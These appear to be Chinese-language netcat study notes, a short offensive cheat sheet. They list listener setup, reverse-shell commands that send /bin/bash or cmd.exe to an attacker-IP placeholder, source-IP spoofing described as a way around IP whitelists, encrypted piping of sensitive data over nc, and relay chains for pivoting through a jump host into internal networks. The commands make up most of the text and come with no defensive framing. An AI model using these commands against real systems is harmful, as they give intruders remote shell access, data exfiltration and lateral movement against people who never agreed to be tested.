 # nc基础功能与命令(反向连接)
```
nc -lvp 4444
```
-l：监听模式
-v：显示详细输出（-vv为更详细模式）
-p：指定监听端口
​扩展参数：
-k：保持长连接（防止Shell意外断开）
-n：禁用DNS解析，直接使用IP地址

-------------------------------------------------------------------
```
nc <攻击机IP> 4444 -e /bin/bash  # Linux
nc.exe <攻击机IP> 4444 -e cmd.exe  # Windows
```
-e：指定要执行的程序（如Shell解释器）

```
nc -u <攻击机IP> 4444  # 目标机使用UDP协议连接
```
-u：启用UDP传输（默认TCP），适用于特殊网络环境

```
nc -d -lvp 4444  # 攻击机后台静默监听
```
-d：脱离终端后台运行（Windows适用）

![](vx_images/403897344725558.png)

# 高级参数解析

```
nc -g 192.168.1.254 目标IP 80
```
此命令通过网关192.168.1.254访问目标IP的80端口
-G <指针数>：
设置源路由指针位置，数值需为4的倍数（如4、8、12），用于复杂网络环境下的路由跳转

```
nc -s 伪造IP 目标IP 端口
```
伪造源IP地址发送数据包（需系统支持），常用于绕过IP白名单或模拟攻击：


```
nc -o traffic.log 目标IP 80
```
将传输的原始数据以十六进制格式**记录到文件，用于分析协议或取证


```
发送端加密
tar -czvf - 目录 | openssl aes-256-cbc -salt | nc -l 4444

接收端解密
nc 目标IP 4444 | openssl aes-256-cbc -d | tar -xzvf -
```
通过管道结合加密工具传输敏感数据


```
节点1（本地）→ 节点2（跳板）→ 目标服务器
nc -l 4444 | nc 跳板IP 5555
nc -l 5555 | nc 目标IP 80
```
此组合将本地4444端口的流量经跳板机转发至目标80端口，适用于内网穿透

![](vx_images/497673955095705.png)

![](vx_images/592942551996815.png)

![](vx_images/106281572810431.png)
![](vx_images/288911857760108.png)

![](vx_images/414525138363794.png)
